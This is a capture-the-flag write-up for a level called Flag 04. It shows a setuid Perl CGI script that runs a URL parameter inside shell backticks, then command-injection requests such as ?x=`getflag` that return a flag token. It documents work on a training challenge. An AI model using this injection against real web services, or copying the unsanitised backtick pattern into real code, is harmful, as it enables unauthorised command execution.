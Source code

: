# Flag 04
- ll
`-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*`
perl pinary :(

- `cat level04.pl `
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

- https://stackoverflow.com/questions/818255/in-the-shell-what-does-21-mean
- https://stackoverflow.com/questions/11255447/what-does-mean/11255498

- so the code redirect stdout and stderr to same output, and exec the x var

- access to localhost:4747 -> void web page

- so when I pass a x var, i get it in output
  - input: http://10.11.100.146:4747/?x=test
  - output: test
- try to pass arry
  - input: http://10.11.100.146:4747/?x[]=test
  - output: ""
- try to pass cmd in whitin backticks
  - input: http://10.11.100.146:4747/?x=`ls`
  - output: level04.pl
- Very goooood, so try to pass getflag cmd
  - input http://10.11.100.146:4747/?x=`getflag`
  - output: Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
















## Abstract
- Password flag03: 
- Password level04: 














